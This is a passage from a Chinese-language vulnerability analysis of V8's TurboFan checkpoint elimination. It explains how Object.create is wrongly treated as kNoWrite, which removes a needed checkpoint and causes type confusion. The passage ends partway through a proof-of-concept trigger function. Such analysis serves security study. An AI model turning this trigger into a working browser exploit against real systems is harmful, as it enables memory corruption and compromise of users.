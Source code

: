 所以我们接着去看ReduceCheckpoint

#### ReduceCheckpoint

在上面的冗余消除部分我们曾提过，当v8判断统一路径下的kCheckpoint是多余的，就会调用CheckpointElimination::ReduceCheckpoint来消除多余的checkpoint。

IsRedundantCheckpoint函数用来检查同路径下是否有多余的checkpoint。
```
//The given checkpoint is redundant if it is effect-wise dominated by another 
// checkpoint and there is no observable write in between. For now we consider 
// a linear effect chain only instead of true effect-wise dominance.

bool IsRedundantCheckpoint(Node* node) {
    Node* effect = NodeProperties::GetEffectInput(node); 
    while (effect->op()->HasProperty(Operator::kNoWrite) && effect->op()->EffectInputCount() == 1) {
        if (effect->opcode() == IrOpcode::kCheckpoint) return true;     
        effect = NodeProperties::GetEffectInput(effect);
    }
  return false;
}
```
此时v8认定对象为kNoWrite，表明次map没有副作用，就会接着遍历，这样就会将后面的IrOpcode::kCheckpoint判断为多余的。

```
Reduction CheckpointElimination::ReduceCheckpoint(Node* node) { 
    DCHECK_EQ(IrOpcode::kCheckpoint, node->opcode());
    if (IsRedundantCheckpoint(node)) {
        return Replace(NodeProperties::GetEffectInput(node));
    }
  return NoChange();
}

Reduction CheckpointElimination::Reduce(Node* node) { 
    DisallowHeapAccess no_heap_access;
    switch (node->opcode()) {
        case IrOpcode::kCheckpoint:
            return ReduceCheckpoint(node);
        default:
            break;
    }
  return NoChange();
}
```
之后就会在Reduce函数中ReduceCheckpoint。

#### 漏洞

前面说了那么多，想必这个漏洞就很好理解了。

首先总结一下成因：
CreateObject函数会改变对象的map类型，但是，v8认为该结点为kNoWrite的，所以在冗余消除时将有效的checkpoint消除掉，从而导致类型混淆，我们据此写出poc如下：
```
function foo()
{   
    function hax(o)
    {
        o.inline;
        Object.create(o);
        return o.outline;
    }
    
    for(let i = 0; i < 0x10000 ; i++)
    {
        let o = {inline : 0x6666};
        o.outline = 0x7777;
```